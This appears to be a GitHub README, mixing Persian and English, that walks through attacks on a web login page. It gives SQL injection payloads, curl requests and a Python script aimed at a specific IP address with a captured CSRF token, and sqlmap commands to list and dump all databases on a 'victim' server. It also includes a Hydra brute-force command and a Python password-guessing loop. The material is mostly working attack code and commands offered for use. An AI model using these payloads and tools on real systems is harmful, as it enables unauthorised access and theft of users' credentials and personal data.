# 1. login with website

```
admin' --
123
```

```
' OR '1'='1' --
123
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
  <li>' : اولین تک کوتیشن، این کار باعث بسته شدن رشته ورودی username می‌شود.</li>
	<li>-- : یک کامنت در SQL است که بقیه کوئری را نادیده می‌گیرد</li>
	<li>نتیجه این می‌شود که شرط WHERE همیشه درست خواهد بود و کوئری اولین کاربر از جدول را برمی‌گرداند (معمولاً کاربر مدیر).</li>
	<li>OR '1'='1' : یک شرط همیشه درست اضافه می‌کند (1 همیشه برابر با 1 است)</li>
  </ul>
</p>


```sql
SELECT * FROM auth_user  WHERE username='{username}' AND password='{password}'
```
```sql
SELECT * FROM vuln_app_user WHERE username='' OR '1'='1' -- ' AND password='...'
```

<p dir="rtl" align="justify">نتیجه نهایی:</p>

```sql
SELECT * FROM auth_user WHERE username='' OR '1'='1'
```



# 2. curl

```
curl -s -c cookies.txt http://82.115.20.217/login/ | grep csrfmiddlewaretoken
```
```
curl -v -X POST "http://82.115.20.217/login/" \
     -H "Cookie: csrftoken=fTDkcTuWu0YS6of9UEdH9ozk4cIASuf49JuLSSwgEoBwZlMaKux2EiWQRLuOiycv" \
     -d "username=' OR '1'='1' --&password=123&csrfmiddlewaretoken=fTDkcTuWu0YS6of9UEdH9ozk4cIASuf49JuLSSwgEoBwZlMaKux2EiWQRLuOiycv"
```

# 3.
```
python3 -m venv myenv
source myenv/bin/activate
pip install requests beautifulsoup4
``` 
```
nano sqli_test.py
```
```python
import requests
from bs4 import BeautifulSoup

# Configure target
login_url = "http://82.115.20.217/login/"
test_username = "admin' OR '1'='1' --"
test_password = "123"

# Create session with browser-like headers
session = requests.Session()
session.headers.update({
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Connection": "keep-alive",
    "Upgrade-Insecure-Requests": "1",
    "Referer": login_url
})

# 1. Get initial cookies and CSRF Token
print("🔄 Initial request to get cookies...")
try:
    response = session.get(login_url)
    soup = BeautifulSoup(response.text, 'html.parser')
    csrf_token = soup.find('input', {'name': 'csrfmiddlewaretoken'})['value']
    print(f"✅ CSRF Token: {csrf_token}")
    print(f"🆔 Initial Cookies: {session.cookies.get_dict()}")
except Exception as e:
    print(f"❌ Failed to initialize session: {e}")
    exit()

# 2. Prepare injection data
data = {
    "username": test_username,
    "password": test_password,
    "csrfmiddlewaretoken": csrf_token
}

# 3. Send injection request
print("\n🔥 Sending SQL injection payload...")
try:
    response = session.post(login_url,
                          data=data,
                          allow_redirects=False)
    
    print("\n=== Response Analysis ===")
    print(f"Status Code: {response.status_code}")
    print(f"Response Length: {len(response.text)}")
    print(f"Redirect Location: {response.headers.get('Location', 'None')}")
    print(f"Cookies After Login: {session.cookies.get_dict()}")
    
    # Check for successful login indicators
    if response.status_code == 302:
        print("\n✅✅ Strong indication of successful SQL injection!")
        print(f"Redirects to: {response.headers.get('Location')}")
        
        # Follow the redirect to verify
        redirect_url = response.headers['Location']
        if not redirect_url.startswith('http'):
            redirect_url = f"http://82.115.20.217{redirect_url}"
            
        print("\n🔍 Following redirect...")
        redirect_response = session.get(redirect_url, allow_redirects=False)
        print(f"Redirect Status: {redirect_response.status_code}")
        print(f"Final Cookies: {session.cookies.get_dict()}")
        
    else:
        print("\n⚠️ Unexpected response - possible WAF protection")
        
except requests.exceptions.RequestException as e:
    print(f"\n❌ Request failed: {e}")
```
```
python3 sqli_test.py
```
```
deactivate
```

# 4. sqlmap

<p dir="rtl" align="justify">1. نصب sqlmap (اگر وجود ندارد):</p>

```
sudo apt update && sudo apt install sqlmap
```

<p dir="rtl" align="justify">2. اجرای حمله به صفحه لاگین:</p>

```
sqlmap -u "http://IP-سرور-قربانی/login/" --data="username=admin&password=123" --method=POST --risk=3 --level=5 --dbs
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
    	<li>--data: پارامترهای POST ارسالی.</li>
	<li>--dbs: لیست پایگاه‌های داده را نمایش می‌دهد.</li>
  </ul>
</p>

<p dir="rtl" align="justify">هدف: پیدا کردن لیست دیتابیس‌های موجود (dbs--).</p>


<p dir="rtl" align="justify">برای حمله پیشرفته‌تر:</p>

```
sqlmap -u "http://IP-سرور-قربانی/login/" --data="username=admin&password=123" --method=POST --dump-all
```

<p dir="rtl" align="justify">هدف: استخراج تمام داده‌های تمام جداول از تمام دیتابیس‌ها (dump-all--).</p>

<p dir="rtl" align="justify">
	<ul dir="rtl">
	  <li>کاربرد:
		<ul dir="rtl">
		  <li>.نه تنها نام دیتابیس‌ها، بلکه تمامی جداول، رکوردها و اطلاعات حساس (مثل کاربران، پسوردها، اطلاعات شخصی) را دانلود می‌کند.</li>
		  <li>.یک حمله کامل و تهاجمی است که تمام محتوای دیتابیس را افشا می‌کند.</li>
		</ul>
	  </li>
	</ul>
</p>



# 5. Brute Force

<p dir="rtl" align="justify">1. با ابزارهای خودکار (مثل Hydra)</p>

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt victim-ip http-post-form "/login:username=^USER^&password=^PASS^:F=login_failed.html"
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
    <li>l admin-: نام کاربری هدف.</li>
	<li>P rockyou.txt-: لیست پسوردهای معروف.</li>
	<li>http-post-form: نوع حمله (POST).</li>
	<li>F=login_failed.html: شرط تشخیص شکست (اگر این صفحه نمایش داده شد، پسورد اشتباه است).</li>
  </ul>
</p>


<p dir="rtl" align="justify">2. اسکریپت پایتون ساده</p>

```python
import requests

target_url = "http://victim-ip/login/"
username = "admin"
passwords = ["123456", "password", "admin123", "123"]  # یا از یک فایل بخوانید

for password in passwords:
    data = {"username": username, "password": password}
    response = requests.post(target_url, data=data)
    if "login_success" in response.text:
        print(f"✅ پسورد پیدا شد: {password}")
        break
    else:
        print(f"❌ امتحان شد: {password}")
```

